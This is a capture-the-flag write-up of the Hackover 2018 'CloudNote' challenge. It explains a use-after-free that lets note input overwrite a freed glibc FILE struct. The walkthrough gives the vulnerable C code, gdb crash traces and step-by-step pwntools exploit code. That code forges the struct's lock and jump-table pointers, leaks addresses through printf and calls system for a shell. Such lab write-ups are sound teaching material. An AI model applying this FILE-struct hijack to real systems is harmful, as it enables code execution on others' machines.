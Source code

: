 ```yaml
---
title: "CTF Hackover 2018 - Pwn - CloudNote"
description: "A FILE struct use after free""
---
```


# Description

This challenge was created for the Hackover 2018 CTF.

```
This lightweight service hosts your notes in the Cloud.
Feel free to test our service with the guest:guest test account.
For optimal security use a recent Ubuntu Xenial or the provided libc.
```

# Vulnerability

The application has a use after free vulnerability, allowing to overwrite users `FILE` struct.
The note database is opened using `fopen();` and closed after logout, but the `user` pointer is not set to `NULL`.
As the `FILE` struct is alloceted on the heap and freed by `fclose()` the next allocated heap chunk might overwrite this structure.
If the user tries to add a long note after logout, the application segfaults.

```c
void logout() {
    if (user != NULL)
        fclose(user);
    printf("Succsess\n");

    return;
}

void note_add() {
    char *buff = NULL;
    char c;

    if (!user) {
        printf("ERROR: not logged in\n");
        return;
    }

    printf("note> ");
    fflush(stdout);
    getline(&buff, &len, stdin);
    fseek(user, 0, SEEK_END);
    fwrite(buff, strlen(buff), 1, user);
    free(buff);
}

```

`getline()` writes user input to the heap, overwriting the `FILE` struct that is passed to `fseek()` and `fwrite()`.
The `FILE` struct contains a pointer to a jumptable, that holds handlers for various operations(read, write, seek, etc.), the corresponding `_IO_FILE` struct is defined in `libio.h`

# RIP Control

First we have to trigger the UAF:
```
  ____ _                 _ _   _       _       
 / ___| | ___  _   _  __| | \ | | ___ | |_ ___ 
| |   | |/ _ \| | | |/ _` |  \| |/ _ \| __/ _ \
| |___| | (_) | |_| | (_| | |\  | (_) | ||  __/
 \____|_|\___/ \__,_|\__,_|_| \_|\___/ \__\___|
                                               
-----------------------------------------------
Because it's a great Idea!
cmd> login
Username: guest
Password: guest
Succsess
cmd> logout
Succsess
cmd> note add
note> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)A..........
[...]
Stopped reason: SIGSEGV
0x00007ffff7a82f20 in __GI_fseek (fp=0x6039d0, offset=0x0, whence=0x2) at fseek.c:35
[...]
gdb-peda$ pattern search
[...]
Registers point to pattern buffer:
[RDI] --> offset 288 - size ~203
```

The Programm will crashes and a quick look at the registers shows, that `$rdi` points at offset 288 of our buffer, which is the start of our `FILE` struct.
Let's prepare our exploit, starting with a peda pattern:

```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = pattern
exploit = "A" * 288 + fstruct
```
Will result in the following crash:
```
   0x7f80dd35489e <fseek+14>:   jne    0x7f80dd3548f9 <fseek+105>
   0x7f80dd3548a0 <fseek+16>:   mov    r8,QWORD PTR [rdi+0x88]
   0x7f80dd3548a7 <fseek+23>:   mov    r10,QWORD PTR fs:0x10
=> 0x7f80dd3548b0 <fseek+32>:   cmp    r10,QWORD PTR [r8+0x8]
   0x7f80dd3548b4 <fseek+36>:   je     0x7f80dd3548f4 <fseek+100>
   0x7f80dd3548b6 <fseek+38>:   mov    esi,0x1
   0x7f80dd3548bb <fseek+43>:   cmp    DWORD PTR [rip+0x332e1e],0x0        # 0x7f80dd6876e0 <__libc_multiple_threads>
   0x7f80dd3548c2 <fseek+50>:   je     0x7f80dd3548cd <fseek+61>

gdb-peda$ pattern search
Registers contain pattern buffer:
r8+0 found at offset 136
```
This is a pointer to `_IO_FILE._lock` and should point to a writable location containing 0x00.
We choose a random address in the BSS segment.
```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = pattern
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
exploit = "A" * 288 + fstruct
```
```
   0x7f252345533e <_IO_seekoff_unlocked+30>:    js     0x7f25234553b0 <_IO_seekoff_unlocked+144>
   0x7f2523455340 <_IO_seekoff_unlocked+32>:    je     0x7f2523455379 <_IO_seekoff_unlocked+89>
   0x7f2523455342 <_IO_seekoff_unlocked+34>:    mov    rax,QWORD PTR [rdi+0xa0]
=> 0x7f2523455349 <_IO_seekoff_unlocked+41>:    cmp    QWORD PTR [rax+0x40],0x0
   0x7f252345534e <_IO_seekoff_unlocked+46>:    je     0x7f2523455379 <_IO_seekoff_unlocked+89>
   0x7f2523455350 <_IO_seekoff_unlocked+48>:    cmp    edx,0x1
   0x7f2523455353 <_IO_seekoff_unlocked+51>:    je     0x7f2523455436 <_IO_seekoff_unlocked+278>
   0x7f2523455359 <_IO_seekoff_unlocked+57>:    mov    rdi,rbx
gdb-peda$ pattern search
Registers contain pattern buffer:
RAX+0 found at offset: 160  
[...]
```
Lets set this pointer to the same location and see what happens:
```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = pattern
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
fstruct = set_data(fstruct, 160, pwn.p64(nullptr))
exploit = "A" * 288 + fstruct
```
```
   0x466904 <_IO_seekoff_unlocked+84>:  mov    rsi,QWORD PTR [rsp]
   0x466908 <_IO_seekoff_unlocked+88>:  mov    rax,QWORD PTR [rbx+0xd8]
   0x46690f <_IO_seekoff_unlocked+95>:  mov    rdi,rbx
=> 0x466912 <_IO_seekoff_unlocked+98>:  mov    rax,QWORD PTR [rax+0x48]
   0x466916 <_IO_seekoff_unlocked+102>: add    rsp,0x10
   0x46691a <_IO_seekoff_unlocked+106>: pop    rbx
   0x46691b <_IO_seekoff_unlocked+107>: jmp    rax
   0x46691d <_IO_seekoff_unlocked+109>: nop    DWORD PTR [rax]
gdb-peda$ pattern search
Registers contain pattern buffer:
RAX+0 found at offset: 216
[...]
Registers point to pattern buffer:
[RDI] --> offset 0 - size ~142
```
The code will now jump to `rax+0x48` which is copied from offset 216 in our buffer!
In addition `rdi` also points to our forged `FILE` struct, so we can also controll the first argument.
Lets write a pointer to `printf@got-0x48` at offset 216:

```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = pattern
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
fstruct = set_data(fstruct, 160, pwn.p64(nullptr))
fstruct = set_data(fstruct, 216, pwn.p64(got_printf-0x48))
exploit = "A" * 288 + fstruct
```

```
note> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)A..........
AAA0X0.0000000E6C4BP-1...............
cmd>
```

Nice! The code prints our `FILE` struct directly on the screen.

# Exploit
We can now replace our peda pattern with lots of `%p|` to leak the heap and libc base.

```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = "%p|" * 64
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
fstruct = set_data(fstruct, 160, pwn.p64(nullptr))
fstruct = set_data(fstruct, 216, pwn.p64(got_printf-0x48))
exploit = "A" * 288 + fstruct
```

```
note> %p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|.............
(nil)|0x2|0x3|0x6020f0|(nil)|0x2454420|0x401037|0x24554b0|0x6dde37d37eab4000|0x7ffc1f28a680|...
|0x1c|0x1|0x7ffc1f28afce|%`cmd>
```

As we broke ASLR, we are now ready to execute `system()` in the second stage.
This time, we have to replace the call to `printf()` with a call to `system()`.
As the adress of `system();` is not in memory, we have to write it to an unsed location in the `FILE` struct.
We can use the beginning of our `FILE` struct to pass any argument.

```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = "%p|" * 64
fstruct = set_data(fstruct, 0, "bash\x00")
fstruct = set_data(fstruct, 32, pwn.p64(libc + system_offset))
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
fstruct = set_data(fstruct, 160, pwn.p64(nullptr))
fstruct = set_data(fstruct, 216, pwn.p64(heap + 5616 - 0x48))
exploit = "A" * 288 + fstruct
```
And we got a shell ;)

```
cat flag
hackover2018{4lw4y2_Null_y0uR_P01Nt3R}
```


# Files
- [exploit.py](exploit.py)
- [cloudnote.c](cloudnote.c)
- [cloudnote](cloudnote)
- [libc.so.6](libc.so.6)
- [ld-2.23.so](ld-2.23.so)
- [Dockerfile](Dockerfile)
- [Makefile](Makefile)
